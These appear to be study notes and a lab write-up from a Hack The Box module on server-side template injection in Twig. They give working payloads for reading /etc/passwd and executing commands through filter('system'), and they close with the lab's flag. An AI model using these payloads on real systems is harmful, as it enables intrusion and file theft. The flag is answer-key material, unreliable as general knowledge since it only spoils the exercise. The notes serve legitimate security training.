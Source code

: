 ```yaml
---
sticker: lucide//book-template
---
```

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

---

## Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:


```twig
{{ _self }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

---

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:


```twig
{{ ['id'] | filter('system') }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

---

## Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

# Question
---
![](Pasted image 20250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![](Pasted image 20250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![](Pasted image 20250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![](Pasted image 20250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![](Pasted image 20250212141817.png)

Flag is: 

```
HTB{5034a6692604de344434ae83f1cdbec6}
```